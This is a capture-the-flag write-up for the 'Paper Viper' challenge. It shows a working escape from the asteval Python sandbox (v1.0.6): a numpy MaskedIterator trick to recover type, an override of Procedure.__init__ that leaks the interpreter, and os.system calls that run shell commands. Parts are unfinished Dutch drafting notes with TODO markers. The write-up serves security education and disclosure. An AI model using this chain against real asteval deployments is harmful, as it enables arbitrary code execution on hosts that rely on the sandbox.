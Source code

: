 # Paper Viper

<img src="chal_descr.png" alt="Challenge description" width="400">

**Author**: Ward  
**Flag**: `kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`  

## Setup
Handout: `chal.py`, `Dockerfile`, `compose.yml`, `getflag.c` and a fake `flag.txt`.

`chal.py` is the main challenge file. The goal of the challenge is to get code execution on the server and run the getflag binary.
In the Dockerfile we find that `numpy` is installed, and `asteval` with version `1.0.6` (which is the latest release).

## The challenge:
The challenge description is a reference to UofTCTF (shout out to SteakEnthusiast), in which there were three challenges on `asteval`, a "safe sandboxing" library for python.
After that CTF a few of the vulnerabilities in the library were fixed, but as anyone familiar with pyjails will know, sandboxing python is very difficult to achieve with the amount of introspection the language has, and things like unpatched memory bugs in cpython. In the case of `asteval`, `numpy` is included by default, which dramatically worsens these issues.

After that CTF I went and did some more research into `asteval` and found a few 0days, some of which I turned into this challenge.

The source code of `chal.py`:
```python
import asteval

# With this many functions from numpy removed there definitely will not be a way for users to get to `type()`, which is a security risk
asteval.astutils.NUMPY_TABLE = {k: asteval.astutils.NUMPY_TABLE[k] for k in ["genfromtxt"]}

def get_input():
    print("Give input, end with a line of $END$")
    inp = ""
    while True:
        temp = input()
        if temp == "$END$":
            break
        inp += temp +"\n"
    return inp

def nope(text):
    if not text.isascii():
        quit("Sorry, only ascii!")
    if any([text.find(x) >= 0 for x in ["yt", "ty", "rm", "uf", "**"]]):
        quit('Sorry, those bigrams just give me bad vibes!')

def main():
    inp = get_input()
    nope(inp)
    asteval.Interpreter().eval(inp, raise_errors=True)

if __name__ == "__main__":
    main()
```

As we can see, the user gives multiline input which is passed through a filter and then evaluated by the `asteval` Interpreter.
With its default settings, `asteval` includes a large set of `numpy` names in the symbol table available from within the sandbox. In this challenge the player is only given a single one of these, the function `genfromtxt()`, with a comment hinting at the function `type()`.

By default, the name `type` available within the sandbox is a "safe version" of it which returns the name of the type as a string.

The filters included are written to prevent some of the easier unintended solutions. There are a lot unpatched vulnerabilities in `asteval`, some of which are quite trivial, which these filters are intended to prevent.

Specifically they are to block:
`byte` and `bytearray`, `dtype`, `type` (the numpy attribute), `ctypes`, `format`, `buffer` and dict unwrapping as a way to pass keyword arguments to functions in a way to bypass text filters (since the dictionary keys are string literals that can be constructed past the filter).

Heel janky library, heleboel bugs en 0days aanwezig. numpy geeft huge attack surface, dus het was best een uitdaging om mensen de juiste richting in te duwen van de intended en de unintendeds te filteren zonder dat het super arbitrair wordt.
Ben ook niet helemaal tevreden door deze filters sinds ze nogal arbitrair zijn, het gaat om de sandbox escape en niet om het bypassen van mijn filters, zoals het geval zou zijn bij e.g. de leuke jailctf pyjails.
TODO uitleggen hoe de challenge tot stand is gekomen / waar de specifieke filters voor zijn:
byte, bytearray, format, buffer, dict unpacking for kwargs which would bypass names that would be filtered otherwise (since strings can be constructed to bypass the filter).

## The solution:
During the CTF there were two solves, by two familiar faces when it comes to pyjails, Lyndon from MMM and oh_word from Infobahn.

Lyndon used a method based on f-strings and the well-known method of using `AttributeError.obj` to extract a value from a format string, which was a variant of a solve for the UofTCTF chals TODO CONTINUE HERE

Lyndon gebruikte een f-string-gebaseerde methode (met de breder bekende methode van AttributeError.obj om een waarde uit een format string te redden) die erg leek op de oplossing van een van de chals voor UofTCTF.
Ik ken de techniek, na UofTCTF is er een patch geweest naar asteval die bedoeld was om het te fixen. Die blijkt niet te werken.
In mijn locale testing-setup werkte het niet (waarschijnlijk omdat ik op een oudere versie van python zat dan op de remote), waardoor ik het niet aan de filters heb toegevoegd.
oh_word heeft de intended route voor `type` gevonden, en daarna memory exploitation gedaan.

### Getting a type primitive:

Uitleg: in de chal wordt hiernaar gehint. Hoe vind je dit?
Wat intelligente searches op type in `numpy`, e.g. als je zoekt op `type(self.` zijn er 4 resultaten, waarvan er maar 2 geen tests zijn.  Meer algemene searches zullen het ook vinden, maar dan heb je wat meer werk in het wegstrepen van routes die niet werken met user-controlled argumenten.
In MaskedArray.count ziet het er zo uit:
```python
        if isinstance(self.data, np.matrix):
            if m is nomask:
                m = np.zeros(self.shape, dtype=np.bool)
            m = m.view(type(self.data))
```
Dit is niet vulnerable: zelfs als de isinstance-check geen probleem zou zijn, dan nog wordt het resultaat van deze call dusdanig gebruikt dat het niet zomaar mogelijk is om bij het resultaat te kunnen.

De andere optie:
```python
def __getitem__(self, indx):
        result = self.dataiter.__getitem__(indx).view(type(self.ma))
        if self.maskiter is not None:
            _mask = self.maskiter.__getitem__(indx)
            if isinstance(_mask, ndarray):
                # set shape to match that of data; this is needed for matrices
                _mask.shape = result.shape
                result._mask = _mask
            elif isinstance(_mask, np.void):
                return mvoid(result, mask=_mask, hardmask=self.ma._hardmask)
            elif _mask:  # Just a scalar, masked
                return masked
        return result
```
De getitem van MaskedIterator. self.ma is user-controlled, self.dataiter is user-controlled. Als we dus ervoor kunnen zorgen dat de .view-methode op dat object uit de dataiter zijn argument returnt, of het in een globale lijst opslaat oid, dan kunnen we direct bij het resultaat van type en hebben we een werkende type primitive.

```python
# Get `type` primitive
def id(x):
    return x

genfromtxt.view = id
ma = genfromtxt(["1"], usemask=True)
mf = ma.flat
mf.maskiter = None
mf.ma = "foo"
mf.dataiter = [genfromtxt]
str = mf[0]

mf.ma = str
t = mf[0]
```

Wat geeft type ons? In de sandbox heb je een fake versie van type. Type stelt ons in staat om class objects te verkrijgen van alle objecten waar we toegang toe hebben in de sandbox, inclusief `asteval`-eigen klassen.

### Overriding class level dunders to leak the interpreter object:

Point out de bug in setattr van dunders.
Point out de bug van setattr in Procedure als instance-level-functie ipv class-level.

```python
# Get Procedure class object
def f():
    pass
p = t(f)

# Obtain the Interpreter instance
def stealer(name, interp, doc=None, lineno=None,
                 body=None, text=None, args=None, kwargs=None,
                 vararg=None, varkws=None):
    print(interp)
    kwargs[0][1].append(interp)
p.__init__ = stealer
rescuelist = []
def g(rescue=rescuelist):
    pass
i = rescuelist[0]
print(i)
```

Dit geeft ons een interpreter-object.

### Profit:
Op dit punt zijn er een heleboel opties.
De makkelijkste is om gewoon gebruik te maken van de importfunctionaliteit.
Een leuke alternatieve optie is om de attribuutnaam-check in on_name te omzeilen door een fake-subtype van string te maken en daarmee de waarde van een ast.Name node te overschrijven, maar die laat is als exercise to the reader.

```python
# Import and escape the jail
i.import_module("os",["sys"],["system"])
sys("echo hi mom")
sys("/getflag")
print()
```

`kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`
